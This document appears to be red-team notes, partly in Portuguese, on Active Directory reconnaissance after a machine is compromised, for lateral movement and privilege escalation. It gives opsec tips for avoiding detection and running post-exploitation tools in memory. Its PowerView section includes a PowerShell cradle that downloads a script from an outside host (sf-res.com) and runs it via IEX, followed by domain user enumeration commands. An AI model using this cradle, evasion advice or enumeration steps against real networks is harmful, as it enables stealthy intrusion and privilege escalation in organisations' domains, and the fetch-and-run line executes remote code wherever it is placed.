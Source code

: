 ## Domain Recon for lateral moviment
> ___

Depois de conseguir acesso a uma maquina que faz parte de um dominio AD, o reconhecimento de um (ou mais) dominio(s) AD é essencial para identificar outras contas de usuário, serviços, grupos e suas permissões (GPOs, ACLs, ACEs, etc), para assim encontrar formas de movimentar lateralmente e elevar privilégios no dominio AD.

A ideia aqui é mostrar algumas formas de reconhecimento que são baseadas em protocolos nativos usados pelo AD e pelo s.o windows, com o objetivo de tirar vantagem de ferramentas usadas nativamente e ser mais furtivo numa atepa conhecida pelos redteamers como Situational Awareness...

- Account Discovery: Domain Account
- https://attack.mitre.org/techniques/T1087/002/

- AD https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
  - https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
  - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/

#### opsec tips

- https://github.com/RistBS/Awesome-RedTeam-Cheatsheet/blob/master/Miscs/OPSEC%20Guide.md

- do ldap queries more specific that not consume high processing to execute.

- tools that use wldap32.dll can be detected more easily.

- execute in memory post-exp tools.


## PowerView
> ___

What powerview does is basically instantiate the DirectorySearcher object and use LDAP filters to query specific objects (more details below in the raw ldap query examples)

- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
- https://05t3.github.io/posts/PowerView-Walkthrough/
- https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/#using-powerview


- load pv in memory
```
$netobj = New-Object System.Net.WebClient;
IEX($netobj.DownloadString('https://sf-res.com/miniview.ps1'));
```

- info all users
```
PS X:> Get-NetUser | select name, lastlogontimestamp, serviceprincipalname, admincount, memberof | Format-Table -Wrap -AutoSize 

PS X:> get-domainuser -Properties distinguishedname,memberof

PS X:> Get-UserProperties -Properties name,memberof,description,info
```
